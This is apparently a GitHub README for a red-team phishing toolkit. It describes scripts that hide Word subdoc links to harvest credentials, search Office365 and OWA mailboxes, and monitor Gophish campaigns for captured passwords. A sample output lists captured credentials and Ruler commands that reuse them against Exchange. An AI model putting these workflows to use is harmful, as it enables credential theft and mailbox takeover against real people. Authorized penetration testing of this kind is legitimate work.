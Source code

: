 # phishing-scripts
Some miscellaneous phishing scripts

| Script | Description |
| --- | --- |
| refLinksToWhite.ps1 | This script is to be used with 'subdoc_injector.py' as mentioned in https://rhinosecuritylabs.com/research/abusing-microsoft-word-features-phishing-subdoc/. The script will change the color of Subdoc reference link to 'white' and saves it<br>Example: .\test.ps1 z:\tmp\test.docx \\1.1.1.1\docs\ |
| o365.py | This script search/download emails/attachments matching keywords from Office365 email accounts|  
| gophishauto.py | This script monitors Gophish campaigns and sends out a Slack/Pushover notification when a set of credentials is captured.<br>It displays some statics from the campaign (e.g % of users who read the email/clicked the link/entered credentials as well as who they are).<br> It also displays the list of credentials captured so far.<br>It also tries to determine the OS used by the users based on the User Agent information [some minor bugs pending to be fixed]|
| owaDump<br>https://github.com/milo2012/owaDump | Logins into Outlook Web Access servers and search Email Accounts (OWA) for Passwords, PAN numbers as well as other Keywords|
  
  
  
*** Sample output from gophishauto.py ***
```
$  python gophishauto3.py -a 212345436346 -i 192.168.0.181 -p 3333 --ssl -n 14 

*** Results from Gophish Campaign - Company1 ***
[*] List of users who read the email
[+] Campaign Status - Company1
Total Targets: 10 (100%) 
Email Unread:  4 (40%)
Email Opened:  6 (60%)
Clicked Link:  3 (30%)
Credentials Captured: 2 (20%)

[+] Credentials Captured from Gophish
Email                               Username                            Password
----------------------------------  ----------------------------------  ------------
xxx@yahoo.com     		    xxx@yahoo.com    			Password1
yyy@yahoo.com   		    yyy@yahoo.com   			Password1

[+] Ruler
./ruler-osx64   --email xxx@yahoo.com -u xxx@yahoo.com -p 'Password1' c
./ruler-osx64   --email yyy@yahoo.com -u yyy@yahoo.com -p 'Password1' c

[*] List of users who read the email
aaa@yahoo.com
bbb@yahoo.com
ccc@yahoo.com
ddd@yahoo.com

[+] List of users who click the link
aaa@yahoo.com
bbb@yahoo.com
ccc@yahoo.com

[+] Unique Browser User Agents (OS Matching)
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36 [Mac OS X 10.12.6]
Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 [Windows 7]

[+] Browser User Agents
----------------------------------  ------------------------------------------------------------------------------------------------------------------------
xxx@yahoo.com     Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
yyy@yahoo.com  	  Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36
----------------------------------  ------------------------------------------------------------------------------------------------------------------------
```
